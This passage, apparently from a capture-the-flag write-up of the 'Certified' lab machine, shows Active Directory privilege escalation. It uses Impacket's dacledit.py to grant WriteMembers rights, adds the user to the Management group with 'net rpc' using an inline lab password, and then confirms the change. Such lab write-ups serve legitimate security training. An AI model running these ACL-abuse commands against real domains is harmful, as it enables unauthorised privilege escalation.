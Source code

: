 - 2º [dacledit.py](# "Impacket script that modifies ACLs in Active Directory to grant or revoke permissions on an object.") to grant ourselves write permissions.

```python
dacledit.py -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=Management,CN=Users,DC=Certified,DC=HTB' 'certified.htb/judith.mader:judith09'
```

- 3º [net](# "Samba tool that allows administering users and groups in Windows/AD environments from the command line.") to add ourselves to the group.

```python
net rpc group addmem "Management" "judith.mader" -U "certified.htb/judith.mader%judith09" -S "10.10.11.41"
```

With this we add ourselves to the group. To confirm if we are inside, we can use [rpcclient](# "Samba tool that allows interacting with Windows RPC services to enumerate and administer domain resources.").

![us](../../../../../assets/certified/users.png)

We can now confirm that we have been added successfully.

![no](../../../../../assets/certified/rpcju.png)
